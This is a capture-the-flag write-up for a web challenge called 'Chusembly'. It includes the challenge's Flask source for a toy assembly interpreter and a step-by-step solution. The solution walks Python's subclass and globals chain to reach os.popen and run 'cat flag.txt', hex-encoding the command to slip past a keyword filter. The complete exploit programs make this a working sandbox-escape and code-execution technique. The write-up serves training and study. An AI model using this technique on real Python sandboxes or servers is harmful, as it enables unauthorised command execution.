




# Chusembly

**Points:** 500  
**Category:** Web  
**Author:** benzo

## Chalenge Description:

i think i can't do anything with this, tho flag is in flag.txt i couldn't read it :/ , maybe you can?

## HANDOUT

### Website:

http://academy.ehax.in:8880/


### File Structure



### main,py

```python
from flask import Flask, render_template, request
import io, contextlib, threading


class Chusembly:
    registers = {
        "A": None,
        "B": None,
        "C": None,
        "D": None
    }
    instructions = [
        "LD",
        "PEEK",
        "POP",
        "PUSH",
        "DEL",
        "ADD",
        "MOV",
        "CMP",
        "IDX",
        "CALL",
        "PROP",
        "END",
        "STDOUT",
    ]

    stack = []

    def __init__(self):
        pass

    def enforce_arg_lenth(self, length, parts, instruction):
        if len(parts) - 1 != length:
            raise ValueError(f"Expected {length} arguments, got {len(parts) - 1}")

    def check_register(self, reg):
        if reg not in self.registers:
            raise ValueError(f"Unknown register: {reg}")

    def parse_instruction(self, parts):
        instruction, *args = parts
        if instruction not in self.instructions:
            print(self.instructions)
            raise ValueError(f"Unknown instruction: {instruction}")

        if instruction == "LD":
            self.enforce_arg_lenth(2, parts, instruction)
            reg, value = args
            self.check_register(reg)


            if value.startswith("0x"):
                value = str(bytes.fromhex(value[2:]), 'utf-8')
                self.registers[reg] = value
                return

            try:
                value = int(value)
            except ValueError:
                pass
            self.registers[reg] = value

        elif instruction == "PUSH":
            self.enforce_arg_lenth(1, parts, instruction)
            reg = args[0]
            self.check_register(reg)
            self.stack.append(self.registers[reg])

        elif instruction == "POP":
            self.enforce_arg_lenth(1, parts, instruction)
            reg = args[0]
            self.check_register(reg)

            if not self.stack:
                raise ValueError("Stack is empty")
            self.registers[reg] = self.stack.pop()

        elif instruction == "PEEK":
            self.enforce_arg_lenth(1, parts, instruction)
            reg = args[0]
            self.check_register(reg)

            if not self.stack:
                raise ValueError("Stack is empty")
            self.registers[reg] = self.stack[-1]

        elif instruction == "ADD":
            self.enforce_arg_lenth(2, parts, instruction)
            reg1, reg2 = args
            self.check_register(reg1)
            self.check_register(reg2)

            if isinstance(self.registers[reg1], int) and isinstance(self.registers[reg2], int):
                self.registers[reg1] = self.registers[reg1] + self.registers[reg2]
            else:
                self.registers[reg1] = str(self.registers[reg1]) + str(self.registers[reg2])

        elif instruction == "CMP":
            self.enforce_arg_lenth(2, parts, instruction)
            reg1, reg2 = args
            self.check_register(reg1)
            self.check_register(reg2)
            self.registers["E"] = int(self.registers[reg1] == self.registers[reg2])

        elif instruction == "DEL":
            self.enforce_arg_lenth(1, parts, instruction)
            reg = args[0]
            self.check_register(reg)
            self.registers[reg] = None

        elif instruction == "CALL":
            self.enforce_arg_lenth(1, parts, instruction)
            reg = args[0]

            self.check_register(reg)
            if not callable(self.registers[reg]):
                raise ValueError(f"Register {reg} does not contain a callable")

            if self.registers["A"] is not None and self.registers["B"] is not None:
                self.registers["E"] = self.registers[reg](self.registers["A"], self.registers["B"])

            elif self.registers["A"] is not None:
                self.registers["E"] = self.registers[reg](self.registers["A"])

            elif self.registers["B"] is not None:
                self.registers["E"] = self.registers[reg](self.registers["B"])
            else:
                self.registers["E"] = self.registers[reg]()

        elif instruction == "MOV":
            self.enforce_arg_lenth(2, parts, instruction)
            reg1, reg2 = args
            self.check_register(reg1)
            self.check_register(reg2)
            self.registers[reg2] = self.registers[reg1]

        elif instruction == "PROP":
            self.enforce_arg_lenth(2, parts, instruction)
            prop, reg1 = args
            self.check_register(reg1)

            try:
                self.registers["E"] = getattr(self.registers[reg1], prop)
            except AttributeError:
                raise ValueError(f"Property {prop} not found on register {reg1}")

        elif instruction == "IDX":
            self.enforce_arg_lenth(2, parts, instruction)
            reg1, reg2 = args
            self.check_register(reg2)
            self.check_register(reg1)

            try:
                if not isinstance(self.registers[reg1], (list, tuple, str)):
                    raise ValueError(f"Register {reg1} is not indexable, it should be either a list, tuple or string")

                if not isinstance(self.registers["A"], int):
                    raise ValueError(f"Register A should be an integer for indexing")


                self.registers[reg2] = self.registers[reg1][self.registers["A"]]
            except (TypeError, IndexError, KeyError):
                raise ValueError(f"Cannot index register {reg1} with register {reg2}")

        elif instruction == "STDOUT":
            self.enforce_arg_lenth(1, parts, instruction)
            reg = args[0]
            self.check_register(reg)
            print(self.registers[reg])

        elif instruction == "END":
            self.enforce_arg_lenth(0, parts, instruction)
            raise StopIteration("End of program")

        else:
            raise ValueError(f"Unhandled instruction: {instruction}")

    def run(self, code):
        lines = code.split("\n")
        for line in lines:
            if not line.strip() or line.strip().startswith("$"):
                continue
            parts = line.split()
            self.parse_instruction(parts)

    def run_safely(self, code):
        try:
            if any(w in code for w in ["flag"]):
                raise ValueError("Unsafe code detected")
            self.run(code)
        except StopIteration:
            pass
        except Exception as e:
            print(f"Error: {e}")


app = Flask(__name__)

@app.route('/', methods=['GET'])
def index():
    return render_template('run.html')


@app.route('/run', methods=['POST'])
def run_code():
    code = request.form.get('code', '')
    ch = Chusembly()

    output_io = io.StringIO()
    error_msg = None

    def target():
        nonlocal error_msg
        try:
            with contextlib.redirect_stdout(output_io):
                ch.run_safely(code)
        except Exception as e:
            error_msg = str(e)

    t = threading.Thread(target=target)
    t.daemon = True
    t.start()
    t.join(2)

    if t.is_alive():
        return render_template('run.html', code=code, output='Execution timed out ( >2s ).')

    out = output_io.getvalue()
    if error_msg:
        out = (out + '\nError: ' + error_msg).strip()

    return render_template('run.html', code=code, output=out)

if __name__ == '__main__':
    app.run(debug=True)
```

## Overview of challenge

This challenge present us with an flask web application having it's own pseudo assembly like language having basic instructions.

So we have to use these instruction in a way to get hold of the flag.txt

## Handout Overview

### main.py

Before we start solving challenge let's understand main.py and how does Chusembly works.

Initially we looking at the code majorly the code can be divided into
2 parts:

- Chusembly class
- Page routes using render engine

We can't exploit it using template injection as in `run.html` we have got `{{output}}` thus rendering the user input as string



So we are left with writing chusembly code and accessing flag.txt

In the class we have registers consisting of 4 keys having value assigned to it as none, 13 instructions and empty stack list

```python
    registers = {
        "A": None,
        "B": None,
        "C": None,
        "D": None
    }
    instructions = [
        "LD",
        "PEEK",
        "POP",
        "PUSH",
        "DEL",
        "ADD",
        "MOV",
        "CMP",
        "IDX",
        "CALL",
        "PROP",
        "END",
        "STDOUT",
    ]
    stack = []
```

For:

- `LD reg value` : assigns register reg an value (int or a string if provided with ascii hex value)
- `PUSH reg` : pushes a register reg value to stack
- `POP reg` : removes the top most value from stack and assigs to a given reg
- `PEEK reg` : assigns last stack value to a given register variable
- `ADD reg1 reg2` : allows to add two registers reg1,reg2 and store it in first register reg1
- `CMP reg1 reg2` : compares two registers and assign it to new register E in int bool form
- `DEL reg` : deletes given register reg
- `CALL reg` : calls given register reg if it's callable passing arguments as register A, register B, both or none depending if they are none or not and assigns the return value to new register E
- `MOV reg1 reg2` : assigns reg1 value to reg2
- `PROP prop reg2` : allows us to get registers[reg2].prop and assign it to new register E
- `IDX reg1 reg2` : allows us to assign reg2 value from reg1's index at nth position where n is the int value of reg A if reg1 is list, string or tuple.
- `STDOUT reg` : prints register reg value
- `END` : Ends the program

## Solution Walkthrough

Now since we have got ourselves familiar with chusembly we need to access os.popen using strings I wasn't familiar with building custom payloads so I check ehax discord server and found this resource for creating sstl templates though our vulnerability is prone to sstl we can learn how to access different function

### creating sample payload in python

[Resource](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)

After going through this resource I got to know about **MRO(Method Resolution Order)**
through which we can access super classes of a particular class

Since with LD we can assing a string to a particular register we need to create a payload which can access os.popen

For creating the payload I imported the same python libraries and ran the following script

**Here below `i`,`j` denotes the index of os.\_wrap_close and os.popen respectively in the respective list dealing with.**

```python
from flask import Flask, render_template, request
import io, contextlib, threading


subcl=''.__class__.__base__.__subclasses__()
i=0
for i in range(0,len(subcl)):
    if('os.' in subcl):
        break;
# through this I got os._wrap_close from which got access to os

# j is the index at which we have got popen in os class since we can only do indexing of list it necessary to convert the list and get index j
j=list(''.__class__.__base__.__subclasses__()[i].__init__.__globals__.keys()).index('popen')


list(''.__class__.__base__.__subclasses__()[i].__init__.__globals__.values())[j]('cat flag.txt').read()

print(i,j)
```

Running this locally on my computer I got i=158 and j=316 (later on it turns out to be different on website so I needed to change the website data)

### Now writing chusambly code for our payload:

So first of all I need a list method for this I wrote

```
LD D 0x612063
PROP split D
$ here below I deleted A,B to ensure that they have none value only so that we can call E without passing any arguments
DEL A
DEL B
CALL E
PROP __class__ E
MOV E C
DEL E
DEL D
```

Here I 0x612063 is "a c"
so using split method i create a list
and from where I got the list function using `__class__` prop under register C

Now for the second part writting the code for
`'.__class__.__base__.__subclasses__()`

```
LD D 0x55
PROP __class__ D
PROP __base__ E
PROP __subclasses__ E
DEL A
DEL B
CALL E
```

we have got our subclasses list stored in E

now we need to get access the ith value that is os.\_wrap_close

```
LD A 158
IDX E E
```

Now we need to access the os library

```
PROP __init__ E
PROP __globals__ E
PROP values E
DEL A
DEL B
CALL E
```

After getting the OS library list we need to get all it's methods as as list

(by default it's dictionary and calling values on dictionary gives us an object of dict_values so that is why we got access to list method in first step and stored it under register C)

```
MOV E B
DEL A
CALL C
```

Then we need to access popen method and call `cat flag.txt`

```
LD A 316
DEL B
IDX E E
LD A 0x63617420666c61672e747874
STDOUT A
DEL B
CALL E
PROP read E
DEL A
DEL B
CALL E
STDOUT E
```

Our malware code is ready and ran perfectly on localhost


**But for website we are getting an error**


### Fixing the error

The error is caused because of list of os methods would be different on the server and we need to get the value of i an j accordingly 🥀

so for that first I got output of
`''.__class__.__base__.__subclasses__()`

chusembly code:

```
LD D 0x612063
PROP split D
DEL A
DEL B
CALL E
PROP __class__ E
MOV E C
DEL E
DEL D

LD D 0x55
PROP __class__ D
PROP __base__ E
PROP __subclasses__ E
DEL A
DEL B
CALL E
STDOUT E
```

In output we would get the whole list

so in chrome dev tools console I wrote the following code for getting i

```js
let c = $("pre").innerText.split(", ");
c.indexOf("<class 'os._wrap_close'>");
```

and i got `i=138`

similarly can be done for getting popen for we will get `j=382`

**`i`,`j` denotes the index of os.\_wrap_close and os.popen respectively in the respective list**

our final chusembly code looks like this:

```
LD D 0x612063
PROP split D
DEL A
DEL B
CALL E
PROP __class__ E
MOV E C
DEL E
DEL D

LD D 0x55
PROP __class__ D
PROP __base__ E
PROP __subclasses__ E
DEL A
DEL B
CALL E
LD A 138
IDX E E
PROP __init__ E
PROP __globals__ E
PROP values E
DEL A
DEL B
CALL E
MOV E B
DEL A
CALL C
LD A 382
DEL B
IDX E E
STDOUT E
LD A 0x63617420666c61672e747874
STDOUT A
DEL B
CALL E
PROP read E
DEL A
DEL B
CALL E
STDOUT E
```

## Flag:


